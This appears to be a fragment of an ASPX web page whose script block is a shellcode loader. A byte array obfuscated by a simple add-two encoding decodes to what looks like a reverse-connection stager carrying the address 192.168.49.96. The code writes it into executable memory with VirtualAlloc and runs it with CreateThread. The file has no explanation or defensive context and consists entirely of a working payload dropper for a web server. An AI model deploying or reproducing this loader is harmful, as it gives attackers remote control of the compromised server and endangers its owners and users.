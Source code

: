 ```aspx
        byte[] fg7Js = new byte[679] {0xfe, 0x4a, 0x85, 0xe6, 0xf2, 0xea, 0xce, 0x02, 0x02, 0x02, 0x43, 0x53, 0x43, 0x52, 0x54, 0x53, 0x58, 0x4a, 0x33, 0xd4, 0x67, 0x4a, 0x8d, 0x54, 0x62, 0x4a, 0x8d, 0x54, 0x1a, 0x4a, 0x8d, 0x54, 0x22, 0x4f, 0x33, 0xcb, 0x4a, 0x11, 0xb9, 0x4c, 0x4c, 0x4a, 0x8d, 0x74, 0x52, 0x4a, 0x33, 0xc2, 0xae, 0x3e, 0x63, 0x7e, 0x04, 0x2e, 0x22, 0x43, 0xc3, 0xcb, 0x0f, 0x43, 0x03, 0xc3, 0xe4, 0xef, 0x54, 0x43, 0x53, 0x4a, 0x8d, 0x54, 0x22, 0x8d, 0x44, 0x3e, 0x4a, 0x03, 0xd2, 0x68, 0x83, 0x7a, 0x1a, 0x0d, 0x04, 0x11, 0x87, 0x74, 0x02, 0x02, 0x02, 0x8d, 0x82, 0x8a, 0x02, 0x02, 0x02, 0x4a, 0x87, 0xc2, 0x76, 0x69, 0x4a, 0x03, 0xd2, 0x46, 0x8d, 0x42, 0x22, 0x8d, 0x4a, 0x1a, 0x4b, 0x03, 0xd2, 0x52, 0xe5, 0x58, 0x4f, 0x33, 0xcb, 0x4a, 0x01, 0xcb, 0x43, 0x8d, 0x36, 0x8a, 0x4a, 0x03, 0xd8, 0x4a, 0x33, 0xc2, 0xae, 0x43, 0xc3, 0xcb, 0x0f, 0x43, 0x03, 0xc3, 0x3a, 0xe2, 0x77, 0xf3, 0x4e, 0x05, 0x4e, 0x26, 0x0a, 0x47, 0x3b, 0xd3, 0x77, 0xda, 0x5a, 0x46, 0x8d, 0x42, 0x26, 0x4b, 0x03, 0xd2, 0x68, 0x43, 0x8d, 0x0e, 0x4a, 0x46, 0x8d, 0x42, 0x1e, 0x4b, 0x03, 0xd2, 0x43, 0x8d, 0x06, 0x8a, 0x4a, 0x03, 0xd2, 0x43, 0x5a, 0x43, 0x5a, 0x60, 0x5b, 0x5c, 0x43, 0x5a, 0x43, 0x5b, 0x43, 0x5c, 0x4a, 0x85, 0xee, 0x22, 0x43, 0x54, 0x01, 0xe2, 0x5a, 0x43, 0x5b, 0x5c, 0x4a, 0x8d, 0x14, 0xeb, 0x4d, 0x01, 0x01, 0x01, 0x5f, 0x4a, 0x33, 0xdd, 0x55, 0x4b, 0xc0, 0x79, 0x6b, 0x70, 0x6b, 0x70, 0x67, 0x76, 0x02, 0x43, 0x58, 0x4a, 0x8b, 0xe3, 0x4b, 0xc9, 0xc4, 0x4e, 0x79, 0x28, 0x09, 0x01, 0xd7, 0x55, 0x55, 0x4a, 0x8b, 0xe3, 0x55, 0x5c, 0x4f, 0x33, 0xc2, 0x4f, 0x33, 0xcb, 0x55, 0x55, 0x4b, 0xbc, 0x3c, 0x58, 0x7b, 0xa9, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0xea, 0x10, 0x02, 0x02, 0x02, 0x33, 0x3b, 0x34, 0x30, 0x33, 0x38, 0x3a, 0x30, 0x36, 0x3b, 0x30, 0x3b, 0x38, 0x02, 0x5c, 0x4a, 0x8b, 0xc3, 0x4b, 0xc9, 0xc2, 0xfd, 0x22, 0x02, 0x02, 0x4f, 0x33, 0xcb, 0x55, 0x55, 0x6c, 0x05, 0x55, 0x4b, 0xbc, 0x59, 0x8b, 0xa1, 0xc8, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0xea, 0x80, 0x02, 0x02, 0x02, 0x31, 0x37, 0x77, 0x5c, 0x5b, 0x32, 0x3a, 0x7c, 0x6e, 0x34, 0x72, 0x5b, 0x67, 0x6f, 0x44, 0x2f, 0x63, 0x68, 0x39, 0x45, 0x68, 0x74, 0x53, 0x49, 0x63, 0x79, 0x35, 0x61, 0x7b, 0x4d, 0x49, 0x36, 0x5c, 0x4c, 0x6d, 0x48, 0x66, 0x3b, 0x48, 0x6f, 0x74, 0x70, 0x75, 0x2f, 0x33, 0x5c, 0x2f, 0x45, 0x54, 0x6b, 0x6b, 0x76, 0x38, 0x65, 0x58, 0x63, 0x5c, 0x73, 0x32, 0x32, 0x77, 0x72, 0x53, 0x38, 0x78, 0x66, 0x6a, 0x52, 0x2f, 0x7a, 0x77, 0x3b, 0x50, 0x54, 0x61, 0x57, 0x59, 0x66, 0x3b, 0x4b, 0x7a, 0x54, 0x56, 0x4c, 0x45, 0x6f, 0x66, 0x63, 0x45, 0x4a, 0x68, 0x77, 0x35, 0x53, 0x49, 0x43, 0x64, 0x63, 0x73, 0x6e, 0x7b, 0x6f, 0x6c, 0x79, 0x72, 0x49, 0x72, 0x5b, 0x35, 0x61, 0x67, 0x46, 0x71, 0x4b, 0x4a, 0x6b, 0x6b, 0x5a, 0x7b, 0x49, 0x4f, 0x68, 0x67, 0x44, 0x53, 0x02, 0x4a, 0x8b, 0xc3, 0x55, 0x5c, 0x43, 0x5a, 0x4f, 0x33, 0xcb, 0x55, 0x4a, 0xba, 0x02, 0x34, 0xaa, 0x86, 0x02, 0x02, 0x02, 0x02, 0x52, 0x55, 0x55, 0x4b, 0xc9, 0xc4, 0xed, 0x57, 0x30, 0x3d, 0x01, 0xd7, 0x4a, 0x8b, 0xc8, 0x6c, 0x0c, 0x61, 0x4a, 0x8b, 0xf3, 0x6c, 0x21, 0x5c, 0x54, 0x6a, 0x82, 0x35, 0x02, 0x02, 0x4b, 0x8b, 0xe2, 0x6c, 0x06, 0x43, 0x5b, 0x4b, 0xbc, 0x77, 0x48, 0xa0, 0x88, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4f, 0x33, 0xc2, 0x55, 0x5c, 0x4a, 0x8b, 0xf3, 0x4f, 0x33, 0xcb, 0x4f, 0x33, 0xcb, 0x55, 0x55, 0x4b, 0xc9, 0xc4, 0x2f, 0x08, 0x1a, 0x7d, 0x01, 0xd7, 0x87, 0xc2, 0x77, 0x21, 0x4a, 0xc9, 0xc3, 0x8a, 0x15, 0x02, 0x02, 0x4b, 0xbc, 0x46, 0xf2, 0x37, 0xe2, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4a, 0x01, 0xd1, 0x76, 0x04, 0xed, 0xac, 0xea, 0x57, 0x02, 0x02, 0x02, 0x55, 0x5b, 0x6c, 0x42, 0x5c, 0x4b, 0x8b, 0xd3, 0xc3, 0xe4, 0x12, 0x4b, 0xc9, 0xc2, 0x02, 0x12, 0x02, 0x02, 0x4b, 0xbc, 0x5a, 0xa6, 0x55, 0xe7, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4a, 0x95, 0x55, 0x55, 0x4a, 0x8b, 0xe9, 0x4a, 0x8b, 0xf3, 0x4a, 0x8b, 0xdc, 0x4b, 0xc9, 0xc2, 0x02, 0x22, 0x02, 0x02, 0x4b, 0x8b, 0xfb, 0x4b, 0xbc, 0x14, 0x98, 0x8b, 0xe4, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4a, 0x85, 0xc6, 0x22, 0x87, 0xc2, 0x76, 0xb4, 0x68, 0x8d, 0x09, 0x4a, 0x03, 0xc5, 0x87, 0xc2, 0x77, 0xd4, 0x5a, 0xc5, 0x5a, 0x6c, 0x02, 0x5b, 0x4b, 0xc9, 0xc4, 0xf2, 0xb7, 0xa4, 0x58, 0x01, 0xd7};
        for(int i = 0; i < fg7Js.Length; i++)
        {
            fg7Js[i] = (byte)(((uint)fg7Js[i] - 2) & 0xFF);
        }
        IntPtr pZj1YD5emo0y = VirtualAlloc(IntPtr.Zero,(UIntPtr)fg7Js.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        System.Runtime.InteropServices.Marshal.Copy(fg7Js,0,pZj1YD5emo0y,fg7Js.Length);
        IntPtr yn5D8NOGTeBt = IntPtr.Zero;
        IntPtr d_X7Z = CreateThread(IntPtr.Zero,UIntPtr.Zero,pZj1YD5emo0y,IntPtr.Zero,0,ref yn5D8NOGTeBt);
    }
</script>
```
